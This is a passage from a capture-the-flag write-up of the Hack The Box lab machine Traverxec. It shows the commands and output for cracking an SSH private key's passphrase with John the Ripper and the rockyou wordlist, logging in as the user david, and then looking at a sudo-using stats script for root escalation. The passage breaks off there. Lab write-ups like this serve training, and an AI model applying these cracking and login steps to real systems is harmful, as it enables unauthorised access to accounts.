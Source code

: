 Let's copy it on our machine and try to crack it with John:
```
$ ssh2john.py id_rsa > id_rsa.hash
$ john --wordlist=lists/rockyou.txt id_rsa.hash                                                                                                      
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (id_rsa)
Warning: Only 1 candidate left, minimum 8 needed for performance.
1g 0:00:00:02 DONE (2019-11-21 18:03) 0.4329g/s 6208Kp/s 6208Kc/s 6208KC/s *7¡Vamos!
Session completed
```

## Escalation to user
Let's try to use it to get a shell as `david`:
```
$ ssh david@10.10.10.165 -i id_rsa
The authenticity of host '10.10.10.165 (10.10.10.165)' can't be established.
ECDSA key fingerprint is SHA256:CiO/pUMzd+6bHnEhA2rAU30QQiNdWOtkEPtJoXnWzVo.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.165' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa':
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
david@traverxec:~$
```

And we got user!

## Root escalation
As we login, we can see a folder named `bin` that contains a script called
`server-stats.sh`
```bash
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

It is basically a script that shows some informations about the server:
```
david@traverxec:~/bin$ ./server-stats.sh
                                                                          .----.
                                                              .---------. | == |
   Webserver Statistics and Data                              |.-"""""-.| |----|
         Collection Script                                    ||       || | == |
          (c) David, 2019                                     ||       || |----|
                                                              |'-.....-'| |::::|
                                                              '"")---(""' |___.|
                                                             /:::::::::::\"    "
                                                            /:::=======:::\
                                                        jgs '"""""""""""""'

Load:  18:46:50 up  4:59,  1 user,  load average: 0.00, 0.00, 0.00
```